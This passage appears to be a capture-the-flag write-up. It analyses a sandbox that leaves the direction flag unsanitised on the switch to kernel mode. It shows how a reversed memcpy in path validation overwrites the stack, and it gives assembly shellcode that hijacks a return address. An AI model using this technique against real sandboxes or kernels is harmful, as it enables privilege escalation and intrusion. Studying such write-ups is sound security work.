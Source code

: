 Next, the subroutine copies validated code to userland code page and sets
permissions to ensure that code cannot be modified:  
```  
 if (mprotect(USER_CODE, PAGE_SIZE, PROT_READ | PROT_EXEC) != 0)  
   err(1, "mprotect");  
```

## Exploitation

I identified only one issue during code review, where the `flags` register is
not sanitized during transistion from userland to kernelland.

The potential exploitation scenario is setting `direction flag` (DF) in order
to change semantics of some *string instructions* during kernelland execution.

Searching for `rep` prefix in provided binary gives interesting fragment from
`path_ok` subroutine:  
```  
0000000000001340 <path_ok.part.0>:  
   ...  
   1376:       f3 48 a5                rep movs QWORD PTR es:[rdi],QWORD PTR
ds:[rsi]  
```  
The above corresponds to `memcpy` instruction during pathname validation code
of `__NR_open`:  
```  
int path_ok(char *pathname, const char *p)  
{  
 if (!access_ok(p, MAX_PATH))  
   return 0;

 memcpy(pathname, p, MAX_PATH);  
 pathname[MAX_PATH - 1] = '\x00';

 if (strstr(pathname, "flag") != NULL)  
   return 0;

 return 1;  
}  
```

The passed `pathname` buffer is allocated on `op_open` stack frame.  
With `direction flag` set, the `rep movs` code decrements `rdi` and `rsi`
registers on each iteration.  
After coping the first qword of userland-supplied data into start of
`pathname`, it continues to preceding stack addresses.  
This vulnerability allows for controlling over 200 bytes (almost MAX_PATH) on
stack just before allocated `pathname` buffer.

Running sandbox under debugger with trivial PoC userland code confirm ability
to overwrite `op_open` return address.  
This can be exploted as follows to execute user-supplied code in 64-bit mode:  
```  
       entry:  
           mov     esp, 0xbef00000  
           sub     esp, 0x200  
           std  
           push    0  
           push    0xdead0000 + hijack_64 - entry  
           mov     edi, 2                      /* __NR_open */  
           lea     esi, [esp + 8]              /* path */  
           xor     eax, eax                    /* mov  eax, 0xfffff000 */  
           dec     eax  
           shl     eax, 12  
           push    eax  
           ret  
       hijack_64:  
```